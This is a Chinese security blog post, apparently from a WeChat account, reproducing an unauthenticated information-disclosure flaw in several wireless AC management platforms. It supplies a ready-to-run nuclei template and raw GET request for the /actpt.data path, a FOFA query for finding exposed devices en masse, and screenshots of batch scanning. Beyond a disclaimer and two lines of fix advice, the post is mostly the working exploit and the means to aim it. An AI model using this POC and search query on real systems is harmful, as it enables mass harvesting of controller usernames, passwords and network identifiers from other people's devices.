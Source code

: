 #  多款AC集中管理平台未授权漏洞【漏洞复现|附nuclei-POC】   
 脚本小子   2024-11-27 00:50  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
AC集中管理平台未授权漏洞。  
  
攻击者可通过访问未授权路径，非法获取包括AC用户名、密码、SSID（服务集标识符）、AP BSSID（接入点基站标识符）等在内的敏感及关键信息，对系统安全构成重大威胁。  
  
  
  
01  
  
—  
  
**Nuclei POC**  
  
  
```
id: AC-jizhongguanlipingtai-unauthorized

info:
  name: 多款AC集中管理平台未授权漏洞

  author: kingkong
  severity: high
  metadata:
    fofa-query: header="HTTPD_ac 1.0"

http:
  - raw:
      - |
        GET /actpt.data HTTP/1.1
        Host: {{Hostname}}
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
        Accept-Encoding: gzip, deflate
        Accept-Language: zh-CN,zh;q=0.9
        Cache-Control: max-age=0
        Connection: keep-alive
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - 'status_code_1 == 200'
              - 'contains(body_1,"username")'
        condition: and

```  
  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：header="HTTPD_ac 1.0"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187AiaZfBEH2EnchTLsBjvpPMp2wpvkPHLtu8ov93TROKmFCo89xQx1Z2Q/640?wx_fmt=png&from=appmsg "")  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j1871t3gpeTueZ7eyCXFbwXWSRMDJbwBoqaarMbfYtdzBbD5zeeJ8OqnCg/640?wx_fmt=png&from=appmsg "")  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j187MJzx0sAVicjYYMW03m2J2aVa2JXrUEeeeqhYg94xGQY5n6qvsPeDsfg/640?wx_fmt=png&from=appmsg "")  
漏洞检测POC  
```
GET /actpt.data HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1


```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneubibiaIicaogdDNqyve7j1872R6Oxibicfa4mwfBu1uCN4ujvtMdzgZ4PMJX8kwFOqFwxhaK0qOGK9xQ/640?wx_fmt=png&from=appmsg "")  
  
  
04  
  
—  
  
修复建议  
  
  
1、强化身份验证和访问控制：实施强密码策略、多因素身份验证，并根据用户角色和权限设置适当的访问控制。2、安全配置：确保系统和应用程序的安全配置，包括正确的文件和目录权限设置、网络访问控制等  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  

